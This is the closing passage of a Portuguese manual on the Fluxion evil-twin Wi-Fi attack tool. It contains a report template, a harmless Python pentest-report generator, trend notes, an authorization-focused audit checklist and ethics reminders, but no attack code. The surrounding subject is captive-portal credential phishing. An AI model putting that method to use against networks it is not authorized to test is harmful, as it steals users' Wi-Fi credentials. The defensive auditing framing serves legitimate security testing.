2. [RECOMENDAÇÃO 2]
3. [RECOMENDAÇÃO 3]

## Conclusão
[RESUMO DOS RESULTADOS E PRÓXIMOS PASSOS]
```

### 12.2 Script de Geração Automática de Relatórios
```python
#!/usr/bin/env python3
"""
Gerador de relatórios para testes Fluxion
"""

import json
from datetime import datetime

class FluxionReport:
    def __init__(self, target_essid, target_bssid):
        self.report = {
            "metadata": {
                "date": datetime.now().isoformat(),
                "tool": "Fluxion v6.9",
                "tester": "",
                "authorization": ""
            },
            "target": {
                "essid": target_essid,
                "bssid": target_bssid,
                "channel": "",
                "security": "",
                "clients": []
            },
            "attack": {
                "method": "",
                "duration": "",
                "start_time": "",
                "end_time": ""
            },
            "results": {
                "connection_attempts": 0,
                "credentials_submitted": 0,
                "valid_credentials": 0,
                "success_rate": 0
            },
            "findings": [],
            "recommendations": []
        }
    
    def add_finding(self, title, severity, description, recommendation):
        self.report["findings"].append({
            "title": title,
            "severity": severity,
            "description": description,
            "recommendation": recommendation
        })
    
    def generate_markdown(self):
        md = f"""# Relatório de Teste de Penetração Wi-Fi

## Informações Gerais
- Data: {self.report['metadata']['date']}
- Ferramenta: {self.report['metadata']['tool']}
- Testador: {self.report['metadata']['tester']}

## Alvo
- ESSID: {self.report['target']['essid']}
- BSSID: {self.report['target']['bssid']}
- Canal: {self.report['target']['channel']}
- Segurança: {self.report['target']['security']}

## Resultados do Ataque
- Método: {self.report['attack']['method']}
- Duração: {self.report['attack']['duration']}
- Tentativas de Conexão: {self.report['results']['connection_attempts']}
- Credenciais Válidas: {self.report['results']['valid_credentials']}
- Taxa de Sucesso: {self.report['results']['success_rate']}%

## Vulnerabilidades Identificadas
"""
        
        for finding in self.report["findings"]:
            md += f"""
### {finding['title']}
- **Severidade**: {finding['severity']}
- **Descrição**: {finding['description']}
- **Recomendação**: {finding['recommendation']}
"""
        
        md += """
## Recomendações
"""
        
        for rec in self.report["recommendations"]:
            md += f"- {rec}\n"
        
        return md

# Exemplo de uso
if __name__ == "__main__":
    report = FluxionReport("TestNetwork", "AA:BB:CC:DD:EE:FF")
    report.add_finding(
        "Vulnerabilidade a ataques Evil Twin",
        "Alta",
        "A rede é vulnerável a ataques de portal captivo",
        "Implementar autenticação 802.1X"
    )
    
    with open("relatorio.md", "w") as f:
        f.write(report.generate_markdown())
```

## 🔮 Capítulo 13: Tendências e Futuro

### 13.1 Evolução do Fluxion
```
Versões anteriores:
- v1.0: Conceito inicial
- v3.0: Interface aprimorada
- v6.0: Multi-idioma, novos templates

Tendências futuras:
- Suporte a WPA3
- Machine learning para detecção de padrões
- Integração com outras ferramentas
- Automação mais avançada
```

### 13.2 Novas Técnicas Emergentes
```bash
# 1. AI-powered phishing
# Análise do comportamento do usuário para páginas personalizadas

# 2. QR code attacks
# QR codes que forçam conexão a redes maliciosas

# 3. Bluetooth como vetor
# Ataques via Bluetooth para comprometer dispositivos IoT

# 4. 5G/6G vulnerabilities
# Novos protocolos, novas vulnerabilidades

# 5. Cloud-based attacks
# Ataques que usam recursos em nuvem para processamento
```

### 13.3 Preparação para o Futuro
```bash
# Para pentesters:
# 1. Aprender sobre WPA3 e SAE
# 2. Estudar 802.11ax (Wi-Fi 6)
# 3. Praticar em ambientes controlados
# 4. Manter-se atualizado com CVEs

# Para defensores:
# 1. Atualizar para WPA3
# 2. Implementar zero-trust networking
# 3. Monitoramento contínuo
# 4. Treinamento regular de usuários
```

---

## 📋 Checklist de Auditoria com Fluxion

### Pré-Auditoria
- [ ] Obter autorização por escrito
- [ ] Definir escopo do teste
- [ ] Configurar ambiente isolado
- [ ] Backup de sistemas críticos
- [ ] Notificar partes interessadas

### Durante a Auditoria
- [ ] Documentar todas as ações
- [ ] Coletar evidências
- [ ] Respeitar horários estabelecidos
- [ ] Não exceder escopo autorizado
- [ ] Manter logs detalhados

### Pós-Auditoria
- [ ] Gerar relatório completo
- [ ] Apresentar resultados
- [ ] Recomendar correções
- [ ] Destruir dados sensíveis coletados
- [ ] Realizar re-teste após correções

### Considerações Éticas
- [ ] Testar apenas redes autorizadas
- [ ] Não causar danos permanentes
- [ ] Respeitar privacidade
- [ ] Manter confidencialidade
- [ ] Agir profissionalmente

---

## 🎓 Conclusão

### Lições Aprendidas
1. **Segurança Wi-Fi é frágil**: Mesmo WPA2 pode ser comprometido via engenharia social
2. **O usuário é o elo mais fraco**: Técnicas persuasivas são extremamente efetivas
3. **Monitoramento é essencial**: Redes devem ser monitoradas continuamente
4. **Educação é a melhor defesa**: Usuários treinados são menos vulneráveis
5. **Testes regulares são necessários**: Segurança não é um evento, é um processo

### Próximos Passos Recomendados
1. **Estudar fundamentos**: Aprenda 802.11, criptografia, redes
2. **Praticar eticamente**: Use apenas ambientes controlados
3. **Expandir conhecimento**: Aprenda sobre outros tipos de ataques
4. **Contribuir com a comunidade**: Reporte bugs, ajude no desenvolvimento
5. **Manter-se atualizado**: Segurança evolui rapidamente

### Recursos Adicionais
```
Livros:
- "The Hacker Playbook 3" - Peter Kim
- "Advanced Penetration Testing" - Wil Allsopp
- "Wi-Foo: The Secrets of Wireless Hacking" - Andrew Vladimirov

Cursos:
- OSCP (Offensive Security Certified Professional)
- eJPT (eLearnSecurity Junior Penetration Tester)
- CISSP (Certified Information Systems Security Professional)

Comunidades:
- Reddit: /r/netsec, /r/HowToHack
- Discord: The Cyber Mentor, NullByte
- Forums: Hack Forums, 0x00sec
```

### Palavras Finais
> *"Com grande poder vem grande responsabilidade. As ferramentas de segurança são como um bisturi na mão de um cirurgião: podem curar ou ferir. Escolha sempre o caminho ético, legal e profissional."*

**Use este conhecimento para proteger, não para atacar.**

---
*Manual criado para fins educacionais*  
*Última atualização: [Data]*  
*Baseado no Fluxion v6.9*  
*Lembre-se: Teste apenas redes que você possui ou tem autorização explícita para testar.*
